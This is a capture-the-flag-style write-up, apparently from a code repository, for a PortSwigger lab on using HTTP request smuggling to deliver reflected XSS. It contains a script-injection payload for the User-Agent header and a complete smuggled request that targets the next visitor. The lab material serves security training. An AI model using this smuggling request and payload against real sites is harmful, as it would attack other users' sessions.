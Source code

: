 # Exploiting HTTP request smuggling to deliver reflected XSS

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.

## Reproduction and proof of concept

1. Visit a blog post, and send the request to Burp Repeater.
2. Observe that the comment form contains your ``User-Agent`` header in a hidden input.
3. Inject an XSS payload into the ``User-Agent`` header and observe that it gets reflected:

```text
"/><script>alert(1)</script>
```

4. Smuggle this XSS request to the back-end server, so that it exploits the next visitor:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

## Exploitability

An attacker will need to smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`. 

